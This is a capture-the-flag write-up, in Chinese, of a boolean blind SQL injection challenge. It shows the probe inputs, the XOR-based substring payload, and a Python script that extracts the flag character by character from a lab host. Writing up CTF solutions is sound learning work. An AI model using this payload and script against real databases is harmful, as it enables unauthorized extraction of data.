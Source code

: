 ![[Pasted image 20221108085601.png]]

![[Pasted image 20221108085629.png]]

```php
id=1
```
> Hello, glzjin wants a girlfriend.


```php
id=2
```
> Do you want to be my girlfriend?


```php
id=3
```
> Error Occured When Fetch Result.

```php
id=0
```
> Error Occured When Fetch Result.


```php
id=1; show databases#
```
> SQL Injection Checked.

```php
id=abc
```
> bool(false)

搜索得知这题是传说中的布尔盲注

通过上面的尝试可知，对`id`的运算结果为`1`或`2`时返回对应的字符串，为其他数字时返回错误，为非数字时返回false，因此可利用这一点逐个判断出flag的每一个字符
```sql
id=0^(ascii(substr((select(flag)from(flag)),/*index*/,1))>/*特定值*/)
```
若后面的比较为真，则`0^1`为`1`，返回`Hello, glzjin wants a girlfriend.`

否则`0^0`为`0`，报错

通过`python`脚本来二分（顺便学下`requests`怎么用QwQ）
```python
import requests

url = 'http://b405dc5e-a9fb-4e52-9d5d-f10a343e2bbd.node4.buuoj.cn:81/index.php'

for i in range(1, 100):
    a = 0
    b = 127
    while a < b:
        mid = (a + b) // 2
        r = requests.post(
            url,
            data={'id':'0^(ascii(substr((select(flag)from(flag)),{},1))>={})'.format(i, mid)})
        if r.content[-2:] == b't.':
            b = mid
        else:
            a = mid + 1

    print(chr(a-1),sep='',end='',flush=True)

```
![[Pasted image 20221108173940.png]]

#Web #SQL注入 #布尔盲注
